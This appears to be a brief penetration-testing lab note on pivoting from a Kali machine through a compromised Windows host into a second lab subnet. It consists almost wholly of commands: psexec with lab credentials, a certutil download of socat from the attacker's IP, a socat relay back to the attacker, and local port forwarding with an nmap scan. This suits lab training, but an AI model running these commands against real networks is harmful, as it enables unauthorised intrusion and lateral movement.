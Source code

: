 Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

```
psexec.py marvel.local/fcastle:Password1@192.168.111.138
```

```
cd C:\Users\fcastle\Documents
```

```
certutil -urlcache -split -f http://192.168.111.133/socatx64.exe
```

```
socatx64.exe tcp-l:8000 tcp:192.168.111.133:443 &
```


#### Local Port Forwarding
Say we wish to target local port 631
```bash - target
socat tcp-listen:9090,fork tcp:127.0.0.1:631 &
```

```bash - kali
nmap -sVC -p 9090 $TARGET
```



































































